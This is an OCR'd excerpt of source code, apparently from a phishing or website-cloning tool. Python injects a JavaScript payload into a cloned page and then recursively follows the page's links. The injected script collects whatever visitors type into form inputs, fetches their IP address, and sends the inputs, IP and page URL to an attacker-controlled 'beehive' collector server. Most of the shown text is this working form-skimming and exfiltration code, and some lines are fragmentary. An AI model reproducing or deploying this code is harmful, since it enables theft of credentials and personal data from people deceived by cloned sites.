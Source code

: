 ```python
//textarea_inputs = textarea_inputs + ", " + input.value

textarea_inputs.push(input.value)

alert(textarea_inputs)

}

});

user_inputs = textarea_inputs + "," + input_inputs;

submitInput()

}));

async function submitInput() {

//fetch IP address from icanhazip.com

const response = await fetch('https://icanhazip.com');

const IP = await response.text();

fetch(`http://'''+beehive_IP+''':'''+str(beehive_port)+'''/collector/inputs?code='''+str(code)+'''&IP=${IP}&uri=${location.href}&type=${type}&inputs=${user_inputs}`)

  

}

'''

inject_code(soup, information_collection_script)

inject_code(soup, button_submit_script)

  

key_elements = soup.find_all(['a', 'input', 'form', 'button', 'link', 'script', 'img'])

for element in key_elements:

if element.name == 'a' and 'href' in element.attrs:

page_num = 0

if recur > 0: #recursive cloning!

print("--------------" + uri + "----------------------")

link_filename = f"index-{recur}-{page_num}.html"

print(element['href'])

  

if "http" not in element['href']:

filename = element['href']

uri = base_address + element['href']

```